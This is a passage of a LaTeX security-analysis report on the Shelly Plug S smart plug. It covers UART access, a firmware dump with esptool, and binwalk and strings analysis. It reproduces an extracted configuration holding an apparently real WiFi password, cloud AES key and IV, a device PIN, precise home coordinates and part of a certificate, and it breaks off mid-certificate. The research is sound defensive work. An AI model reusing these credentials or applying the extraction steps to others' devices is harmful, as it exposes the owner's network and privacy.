    
\includegraphics[width=0.8\linewidth]{Images/Fase1/Interfaccia5.png}
    \caption{General settings menu in the local Web UI}
    \label{fig:shelly_settings}
\end{figure}

\medskip
\noindent The main technical specifications provided by the manufacturer are summarized in Table~\ref{tab:technical_specs}:

\begin{table}[H]
    \centering
    \small
    \renewcommand{\arraystretch}{1.3}
    \setlength{\tabcolsep}{12pt}
    \begin{tabular}{ll}
        \toprule
        \textbf{\color{darkblue}Specification Parameter} & \textbf{\color{darkblue}Value / Details} \\
        \midrule
        \rowcolor{lightgray}
        Power Supply & 110--230 V $\pm$10\% 50/60Hz AC \\
        Max Load & 10A / 230V, 50/60Hz \\
        \rowcolor{lightgray}
        Working Temperature & -20°C to 40°C \\
        Radio Signal Power & 1 mW \\
        \rowcolor{lightgray}
        Radio Protocol & Wi-Fi 802.11 b/g/n \\
        Frequency & 2412--2472 MHz (max. 2483.5 MHz) \\
        \rowcolor{lightgray}
        Operational Range & Up to 50 m outdoors / 30 m indoors \\
        Dimensions (HxWxL) & 70x44x44 mm \\
        \rowcolor{lightgray}
        Electrical Consumption & $<$ 1W \\
        SAR & 1.15 W/Kg \\
        \bottomrule
    \end{tabular}
    \caption{Official technical specifications of the Shelly Plug S}
    \label{tab:technical_specs}
\end{table}


\section{PCB Analysis and Components}
The internal architectural analysis began with the removal of the plastic casing of the device. This operation allowed direct access to the Printed Circuit Board (PCB), where it was possible to map the layout of the components and identify the logical heart of the system.

\noindent While the official documentation only generally mentions microprocessor management, a visual examination of the board confirmed the adoption of the Espressif Systems ESP8266 System on a Chip (SoC).

\noindent The ESP8266 is a low-cost, low-power 32-bit microcontroller based on the Tensilica L106 core, designed specifically for IoT applications requiring integrated wireless connectivity and support for the Wi-Fi 802.11 b/g/n stack.

\medskip
\noindent In addition to the ESP8266 SoC, the PCB analysis identified the following key components:
\begin{itemize}
    \item \textbf{External Flash Memory:} A dedicated chip that hosts the device firmware and configuration parameters; its presence is necessary because the SoC lacks internal programmable ROM for user code.
    
    \item \textbf{Energy Measurement Module:} A specialized chip that detects active power, voltage, and absorbed current in real time. These data are processed by the SoC to be made available to the user via standard protocols (such as MQTT or CoAP) within the companion application.
    
    \item \textbf{Power Relay:} An electromechanical component that physically performs the switching on and off of the connected load.
    
    \item \textbf{Debugging and Programming Interface:} Test points relating to the Universal Asynchronous Receiver-Transmitter (UART) interface are easily identifiable along the perimeter of the PCB. These are pins accessible for serial communication (TX, RX, VCC, GND). These pins are not intended for the end-user but allow direct access to the microcontroller, bypassing the restrictions imposed by standard network interfaces and representing the primary vector for firmware extraction.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.4\linewidth]{Images/Fase1/Shelly Plug S Gen1 PCB.jpeg}
    \caption{Shelly Plug S PCB}
\end{figure}

\noindent The identification of these components, and in particular the combination of external memory and accessible UART interface, defines the physical attack surface of the device, enabling the vulnerability analysis and reverse engineering operations explored in this chapter.


\section{Firmware Analysis and Dumping}
Starting from the hardware configuration analyzed, this section describes the technical procedures performed to interface with the ESP8266 SoC and subsequently acquire the original firmware.

\medskip
\noindent The main goal is to establish stable serial communication to extract the binary data residing in the external flash memory.


\subsection{Identification of the UART Interface}
The first step of the analysis involved a visual inspection of the PCB. Many manufacturers leave test points exposed for factory programming or debugging; in the case of the Shelly Plug S, pinouts were identified that are accessible without the need to desolder critical components. 

\noindent Subsequently, the connection mapping between the UART test points and the SoC pins were identified using a multimeter in continuity mode.

\medskip
\noindent To establish communication between the PC and the target, ensuring data integrity and the safety of the logical components, the following instrumentation was used:

\begin{itemize}
    \item \textbf{USB-to-UART Adapter:} Specifically, a USB-to-TTL adapter was used to convert the USB signal into serial communication. It operates at TTL (Transistor-Transistor Logic) voltage levels, which were configured to 3.3V to ensure full compatibility with the SoC.
    
    \item \textbf{Jumper Cables:} The connection between the adapter and the Shelly PCB was made using Male-to-Female (M-F) jumper cables. Since the Shelly Plug S (Gen 1) features headerless test holes, it was necessary to hold the jumpers in position manually to maintain a stable signal during the dumping phase.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.4\linewidth]{Images/Fase1/foto1.jpeg}
    \caption{Jumper cables held manually in place}
\end{figure}

\noindent As indicated in the technical specifications, the ESP8266 operates in a voltage range between 2.5V and 3.6V. It was therefore essential to configure the adapter to the logical voltage of 3.3V; a higher voltage (such as 5V) would cause irreversible damage to the chip.

\medskip
\noindent The connections were made following a standard cross-over configuration:

\begin{itemize}
    \item \textbf{TX} of the Shelly to the \textbf{RX} of the adapter for transmitting data from the target to the PC.
    \item \textbf{RX} of the Shelly to the \textbf{TX} of the adapter for receiving commands sent from the PC.
    \item \textbf{GND} of the Shelly to the \textbf{GND} of the adapter to establish a common ground reference.
    \item \textbf{VCC} of the Shelly to the \textbf{VCC} of the adapter to power the chip during the operation.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.4\linewidth]{Images/Fase1/linkTargetPC.jpeg}
    \caption{Communication setup between the PC and the target}
\end{figure}


\subsection{Firmware Extraction (Dumping)}
Once the physical connection is established, the extraction phase can be carried out. This operation requires coordination between the logical state of the SoC and the software interface on the PC. 

\medskip
\noindent The process consists of two steps:
\begin{enumerate}
    \item Gaining access to the download mode of the bootloader.
    \item Executing the memory read command.
\end{enumerate}

\noindent During a normal boot cycle, the ESP8266 does not allow firmware extraction; it simply executes the code present in the external flash memory. To enable memory read access via the serial interface, the chip must be forced into UART Download Mode. To achieve this, a temporary bridge was created between the GPIO0 test point and GND while connecting the USB adapter to the PC. In this state, the SoC suspends internal firmware execution and waits for serial instructions on the UART0 port.

\noindent The firmware dump was performed using esptool.py, an open-source tool specifically designed for Espressif microcontrollers. This tool enables mapping the entire address space of the external flash memory. The command executed was:

\medskip
\noindent \texttt{esptool.py --port /dev/ttyUSB0 --baud 115200 read\_flash 0 0x200000 firmware.bin}

\medskip
\noindent Where:
\begin{itemize}
    \item \texttt{--port} identifies the serial interface assigned by the operating system to the adapter (in this case, \texttt{/dev/ttyUSB0}).
    
    \item \texttt{--baud} defines the transmission speed; although the chip supports higher speeds, a standard rate of 115200 bps was chosen to ensure maximum data integrity.
    
    \item \texttt{read\_flash 0 0x200000} instructs the tool to read from address \texttt{0x0} to \texttt{0x200000} (2 MB), which matches the physical size of the flash chip.
\end{itemize}

\noindent During the dumping phase, the main challenge encountered was maintaining stable physical contact at the test points. Any minimal signal interruption on the pins caused the operation to fail, forcing a restart of the procedure. 


\subsection{Static Analysis of the Firmware}
Following the acquisition of \texttt{firmware.bin}, static analysis was performed to identify sensitive data and critical information stored in plaintext within the binary. Given the architecture of the ESP8266 SoC, which loads firmware from an external SPI flash memory at startup, the resulting file constitutes a complete image of the device software, containing the application logic, the network stack, and the configuration parameters.

\medskip
\noindent An initial analysis of the binary structure revealed that the 2 MB flash memory is divided into two symmetrical partitions of 1 MB each. This architecture is characteristic of devices supporting Over-the-Air (OTA) updates via a dual-partition scheme. This mechanism ensures redundancy: while one partition runs the active firmware, the other remains available to download and verify a new update, allowing recovery in case of write or boot errors.

\medskip
\noindent To inspect the internal structure and extract the file system, the \texttt{binwalk} tool was used with the extraction option:

\medskip
\noindent \texttt{binwalk -e firmware.bin}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase1/binwalk -e command.png}
    \caption{Execution of the binwalk tool to extract the firmware file system}
    \label{fig:binwalk_extract}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Images/Fase1/cd bin extract.png}
    \caption{Contents of the extracted directory showing the web interface index.html}
    \label{fig:binwalk_dir}
\end{figure}

\noindent The analysis allowed the identification of the firmware structure and the isolation of its different sections, making them available for subsequent investigation.

\noindent Next, the list of all printable character sequences in the binary was extracted using the \texttt{strings} command. This operation allowed us to map the logical structure of the device and identify several critical pieces of information:

\begin{itemize}
    \item \textbf{Architecture and Operating System:} The analysis confirmed the use of the \textbf{ESP8266} chipset (Xtensa architecture) and the \textbf{rBoot v1.2.1} bootloader, which manages the startup and partition selection. The system is based on the \textbf{Mongoose OS v3.0.6-dev} framework, a dedicated IoT operating system. The SPI flash mode configuration was identified as \textbf{QOUT} or \textbf{DOUT}.
    
    \item \textbf{Network Credentials:} A section of the firmware, formatted as a JSON file, contains the WiFi configuration parameters in plaintext. Sensitive data such as the \textbf{SSID}, \textbf{WiFi password}, \textbf{static IP address}, and \textbf{Gateway} were successfully extracted. Storing these credentials unencrypted represents a major security vulnerability.
    
    \item \textbf{Cloud Identity and Encryption:} Unique parameters for authentication to Shelly cloud services were recovered, including the \textbf{Device ID} and the \textbf{MQTT topic} used for telemetry. Particularly critical was the discovery of static \textbf{AES keys} and their associated \textbf{Initialization Vectors (IVs)}, alongside a certificate. Because these keys are statically embedded in the firmware, the cryptographic integrity of the communications channel is compromised.
    
    \item \textbf{Source File References:} Paths to the original source code files used by Shelly developers were exposed, such as files responsible for pin mapping and low-level peripheral management.
\end{itemize}

\noindent The most significant configuration file extracted is shown below:

\begin{itemize}
    \item \textbf{Configuration file}:

\begin{verbatim}
 {
  "device": {
    "id": "shellyplug-s-DC43B6",
    "name": "Caricabatterie eskoot"
  },

  "dns_sd": {
    "host_name": "shellyplug-s-DC43B6"
  },

  "mqtt": {
    "will_topic": "shellies/shellyplug-s-DC43B6/online"
  },

  "wifi": {
    "ap": {
      "enable": false,
      "ssid": "shellyplug-s-DC43B6",
      "channel": 1,
      "hostname": "shellyplug-s-DC43B6"
    },
    "sta": {
      "enable": true,
      "ssid": "FDL",
      "pass": "fdlmj@19841987",
      "last_bssid": "b4:fb:e4:c1:d4:31",
      "last_channel": 1,
      "ip": "192.168.1.133",
      "netmask": "255.255.255.0",
      "gw": "192.168.1.1",
      "ap_roam_migrated": true
    },
    "sta_ps_mode": 2
  },

  "first_boot": false,
  "discoverable": false,

  "cloud": {
    "enabled": true,
    "aes_key": "2715d4e63bd5e0538af17f92b2b6c547",
    "aes_iv": "43ac5edf4ad75046d55b058432aaefd5"
  },

  "pin": "&2gm<{",

  "timezone": "Europe/Rome",
  "latitude": 45.51878,
  "longitude": 9.0863,

  "tz_utc_offset": 7200,
  "tz_dst": true,
  "tz_next_dst_shift": 1698541200,
  "tz_next_utc_offset": 3600,
  "tz_has_dst": 1,
  "tz_is_dst": 1,

  "wrong_sta_protect": {
    "sta_enable": true,
    "sta_ssid": "FDL",
    "sta_pass": "fdlmj@19841987"
  },

  "max_power": 200,

  "relays": {
    "r0": {
      "default_state": 2
    }
  },

  "led_status_disable": true
}

\end{verbatim}

\item \textbf{A certificate}:

\vspace{0.1cm}
\begin{verbatim}
-----BEGIN CERTIFICATE-----
MIIC+TCCAeGgAwIBAgIJAPTc08oPlcrHMA0GCSqGSIb3DQEBCwUAMBMxETAPBgNV
BAoMCEFsbHRlcmNvMB4XDTE3MDIwMzEzMjUxMFoXDTE5MTEyNDEzMjUxMFowEzER
MA8GA1UECgwIQWxsdGVyY28wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIB
AQDHGDBDHpPUbtC9QAAjX3bi487A
VY5JgYB2gyp6R9cjdsNGMbYnWdxnBmsIUKJP
